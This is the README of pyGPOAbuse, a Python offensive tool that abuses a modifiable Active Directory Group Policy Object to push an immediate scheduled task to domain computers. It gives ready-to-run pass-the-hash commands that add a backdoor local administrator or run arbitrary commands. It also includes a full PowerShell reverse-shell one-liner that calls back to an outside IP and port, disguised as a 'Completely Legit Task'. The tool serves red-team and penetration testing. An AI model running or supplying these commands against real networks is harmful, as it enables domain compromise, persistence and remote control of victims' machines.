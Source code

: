 # pyGPOAbuse

## Description

Python **partial** implementation of [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) by[@pkb1s](https://twitter.com/pkb1s)

This tool can be used when a controlled account can modify an existing GPO that applies to one or more users & computers. It will create an **immediate scheduled task** as **SYSTEM** on the remote computer for computer GPO, or as logged in user for user GPO.

Default behavior adds a local administrator.

![Example](https://github.com/Hackndo/pygpoabuse/raw/master/assets/demo.gif)

## How to use

### Basic usage

Add **john** user to local administrators group (Password: **H4x00r123..**)
```bash
python3.8 pygpoabuse.py domain.com/username@pdc.domain.com -gpo-id "17DF9AB4-2AAF-4E60-BF0C-75746436C80F" -f -vv -hashes 8BFD10F0484F52314831296E66EF7C51:8BFD10F0484F52314831296E66EF7C51 -dc_ip_or_fqdn pdc.domain.com
``` 

+Call **whoami**... but you won't see it anyway )
```bash
python3.8 pygpoabuse.py domain.com/username@pdc.domain.com -gpo-id "17DF9AB4-2AAF-4E60-BF0C-75746436C80F" -f -vv -hashes 8BFD10F0484F52314831296E66EF7C51:8BFD10F0484F52314831296E66EF7C51 -dc_ip_or_fqdn pdc.domain.com -command 'whoami'
``` 

+Give custom task name 
```bash
python3.8 pygpoabuse.py domain.com/username@pdc.domain.com -gpo-id "17DF9AB4-2AAF-4E60-BF0C-75746436C80F" -f -vv -hashes 8BFD10F0484F52314831296E66EF7C51:8BFD10F0484F52314831296E66EF7C51 -dc_ip_or_fqdn pdc.domain.com -command 'whoami' -taskname RastaDoNotTouch
``` 

+Using password instead of hash. Well you will be prompted for it
```bash
python3.8 pygpoabuse.py domain.com/username@pdc.domain.com -gpo-id "17DF9AB4-2AAF-4E60-BF0C-75746436C80F" -f -vv -dc_ip_or_fqdn pdc.domain.com -command 'whoami' -taskname RastaDoNotTouch
Password: *****************
``` 

### Advanced usage

Reverse shell example

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "Completely Legit Task" \
    -description "Dis is legit, pliz no delete" \ 
    -user
``` 


## Credits

* [@pkb1s](https://twitter.com/pkb1s) for [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
* [@airman604](https://twitter.com/airman604) for [schtask_now.py](https://github.com/airman604/schtask_now)
* [@SkelSec](https://twitter.com/skelsec) for [msldap](https://github.com/skelsec/msldap)

